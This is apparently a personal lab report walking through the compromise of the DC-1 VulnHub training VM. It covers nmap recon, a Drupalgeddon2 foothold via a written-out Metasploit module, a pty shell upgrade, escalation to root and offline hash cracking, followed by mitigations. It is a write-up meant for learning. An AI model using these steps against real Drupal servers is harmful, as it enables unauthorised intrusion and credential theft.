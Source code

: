## DC-1 VulnHub Lab 


# Lab Report: VulnHub DC-1 — Full Exploitation Chain

---

## 🎯 Objective

Demonstrate a full exploitation chain on the DC-1 VulnHub VM.  
This lab shows how to gain a foothold, escalate privileges, access sensitive data, and document realistic mitigations.

---

## 🛠️ Lab Environment

- **Target:** DC-1 VulnHub VM
- **Attacker:** Kali Linux
- **Network:** NAT
- **Tools:** Nmap, Hydra, Metasploit, Netcat, Hashcat, John the Ripper

---

## 🔗 Exploitation Chain Summary

| Stage | Description |
|-------|--------------|
| Recon | Identified open services, Drupal CMS |
| Foothold | Exploited Drupalgeddon2 vulnerability |
| Privilege Escalation | Escalated from `www-data` to `root` |
| Post-Exploitation | Retrieved `thefinalflag.txt` |
| Mitigation | Patching, upgrade, and lockout controls |

---

## 🔍 Recon & Enumeration

**Nmap Full Port Scan**

```bash
nmap -sV -A <target-ip>
````
![nmap_scan](/screenshots/vulnhub/nmap_scan.png)

![netdiscovery](/screenshots/vulnhub/netdiscover.png)

![netdiscovery](/screenshots/vulnhub/netdiscovery_output.png)

**Result:**

* Port 80: Drupal site discovered
* Other open ports confirmed basic services

---

## ⚡ Initial Foothold

**Vulnerability:** Drupalgeddon2 (CVE-2018-7600)

**Steps:**

1. Launched `exploit/unix/webapp/drupal_drupalgeddon2` in Metasploit:

   ```bash
   use exploit/unix/webapp/drupal_drupalgeddon2
   set RHOSTS <target-ip>
   set TARGETURI /  
   run
   ```
![metasploit](/screenshots/vulnhub/msf_search_exploit.png)

![metasploit](/screenshots/vulnhub/msf_drupalgeddon2.png)

2. Gained a `meterpreter` session.

3. Spawned a proper bash shell:

   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```
![meterpreter](/screenshots/vulnhub/script_better_shell.png)

---

## 🚀 Privilege Escalation

**Escalation Path:**

* Enumerated vulnerable configurations.
* Used `find` and `sudo` misconfigs to escalate from `www-data` to `root`.

**Proof:**

```bash
id
# uid=0(root)
```
![meterpreter](/screenshots/vulnhub/shell_root.png)


**Retrieved Final Flag:**

```bash
cd /root
ls
cat thefinalflag.txt
```

---

## 📌 Post-Exploitation

* Verified root shell access.
* Enumerated system files.
* Extracted Drupal database creds.
* Identified password hash `$S$...` and cracked offline.

![drupal](/screenshots/vulnhub/drupal_user_escalation.png)

![meterpreter](/screenshots/vulnhub/user_table.png)

![meterpreter](/screenshots/vulnhub/eric_user_admin.png)


![meterpreter](/screenshots/vulnhub/hashcat_crack.png)

![meterpreter](/screenshots/vulnhub/hash_crack.png)
---

## ⚖️ Risk & Business Impact

* **Risk:** Critical. Full system compromise including root access.
* **Impact:** Attackers could deface content, steal credentials, pivot to internal networks.
* **Likelihood:** High due to public exploit.

---

## 🛡️ Mitigation & Remediation

| Risk | Recommendation |
|------|----------------|
| Outdated Drupal core | Apply latest security patches |
| Weak admin password | Enforce strong, unique passwords |
| Brute-force possible | Limit login attempts & enable 2FA |
| Privilege escalation possible | Harden permissions & monitor logs |

---

## 📚 Lessons Learned

* Using **Hydra** and **Hashcat** for brute force on **salted hashes** can be *very time-consuming* — better to combine with other vectors (e.g., database access).
* Aggressive brute forcing on login forms with lockouts causes delays — next time, check for lockout controls *before launching Hydra*.
* **Always note down** credentials, tables, and user hashes as you enumerate — saves time if you need to reset or pivot later.
* Consider using `drupal user-password` SQL queries to reset admin passwords *directly* instead of brute forcing.
* **Document everything** — clear evidence and commands help with report clarity.

---

## Final Outcome

**Root access confirmed, final flag captured.
Vulnerability chain: Recon → Exploit → Escalate → Proof → Mitigation.**

---

~ Eric Graham

